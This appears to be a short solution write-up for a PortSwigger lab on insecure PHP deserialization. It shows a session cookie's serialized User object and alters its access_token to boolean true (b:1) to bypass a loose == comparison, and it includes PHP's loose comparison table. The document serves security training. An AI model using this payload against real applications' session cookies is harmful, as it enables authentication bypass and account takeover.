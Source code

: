 # [Lab: Modifying serialized data types](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)

## Lab

This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the `administrator` account. Then, delete Carlos.

You can log in to your own account using the following credentials: `wiener:peter`

## Characteristic

bypass loose comparisons with == in php

## Analysis

detected serialized php object at session cookie.

wiener session:

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"f911jjulirvvgs7f7euhyhfbocd26cej";}
```

serialized object have `access_token` field, maybe it will be compared with the access_token on the server side: `true_access_token == incoming_access_token` ?

## Solutions

modify serialized object:

from:

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"f911jjulirvvgs7f7euhyhfbocd26cej";}
```

to:

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";b:1;}
```

bypassed loose comparisons with == in php

## php loose comparisons table

ref: <https://www.php.net/manual/en/types.comparisons.php>

|| **`true`** | **`false`** | `1` | `0` | `-1` | `"1"` | `"0"` | `"-1"` | **`null`** | `[]` | `"php"` | `""` |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| **`true`** | **`true`** | **`false`** | **`true`** | **`false`** | **`true`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** |
| **`false`** | **`false`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`true`** | **`true`** | **`false`** | **`true`** |
| `1` | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** |
| `0` | **`false`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`*** | **`false`*** |
| `-1` | **`true`** | **`false`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** |
| `"1"` | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** |
| `"0"` | **`false`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** |
| `"-1"` | **`true`** | **`false`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** |
| **`null`** | **`false`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** | **`true`** | **`true`** | **`false`** | **`true`** |
| `[]` | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`true`** | **`true`** | **`false`** | **`false`** |
| `"php"` | **`true`** | **`false`** | **`false`** | **`false`*** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`true`** | **`false`** |
| `""` | **`false`** | **`true`** | **`false`** | **`false`*** | **`false`** | **`false`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** |
